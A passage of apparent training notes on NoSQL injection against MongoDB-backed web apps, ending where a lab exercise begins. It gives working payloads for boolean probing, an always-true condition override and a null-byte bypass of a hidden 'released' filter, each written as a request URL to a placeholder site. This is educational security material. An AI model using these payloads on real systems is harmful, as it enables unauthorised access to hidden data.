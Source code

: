 `this.category == '\''`

If this doesn't cause a syntax error, this may mean that the application is vulnerable to an injection attack.

***

To test if we can influance boolean conditions, send two requests, one with a false condition and one with a true condition. For example you could use the conditional statements&#x20;

`' && 0 && 'x`&#x20;

and&#x20;

`' && 1 && 'x`&#x20;

as follows:

`https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x`

`https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x`

If the application behaves differently, this suggests that the false condition impacts the query logic, but the true condition doesn't. This indicates that injecting this style of syntax impacts a server-side query.

#### Overriding existing conditions

Now that you have identified that you can influence boolean conditions, you can attempt to override existing conditions to exploit the vulnerability. For example, you can inject a JavaScript condition that always evaluates to true, such as `'||1||'`:

`https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27`

This results in the following MongoDB query:

`this.category == 'fizzy'||'1'=='1'`

As the injected condition is always true, the modified query returns all items.

You can also add null character, MongoDB may ignore all characters after a null character.

imagine an item has an hidden query that enables us to see it:

```
this.category == 'fizzy' && this.released == 1
```

The restriction `this.released == 1` is used to only show products that are released. For unreleased products, presumably `this.released == 0`.

With a null charachter in our input, we can bypass the hidden&#x20;

```
https://insecure-website.com/product/lookup?category=fizzy'%00
```

### Lab: Detecting NoSQL injection

Given this website:
